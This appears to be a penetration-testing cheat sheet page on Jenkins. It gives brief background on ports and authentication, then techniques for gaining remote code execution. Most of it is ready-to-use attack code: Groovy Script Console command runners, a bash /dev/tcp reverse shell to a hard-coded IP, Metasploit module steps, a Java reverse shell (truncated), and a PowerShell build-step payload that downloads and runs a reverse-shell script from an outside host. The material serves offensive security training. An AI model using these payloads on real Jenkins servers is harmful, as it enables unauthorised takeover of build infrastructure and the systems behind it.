 # Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

{% tabs %}
{% tab title="RCE" %}
Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
{% endtab %}

{% tab title="RevShell" %}
Send a reverse shell:

{% code overflow="wrap" %}
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```
{% endtab %}

{% tab title="Windows Targets" %}
Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:

{% code overflow="wrap" %}
```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Build Step

If the compromised user is does not have eleveated privileges, but is able to configure projects, we can still get RCE by creating/modyfing a Build Step and passing an RCE command to be executed:

<figure><img src="../../.gitbook/assets/jenkins_build_step_1.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Payload
powershell.exe iex (iwr http://172.16.99.37/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.99.37 -Port 443
```
{% endcode %}

<figure><img src="../../.gitbook/assets/jenkins_revshell.png" alt=""><figcaption></figcaption></figure>
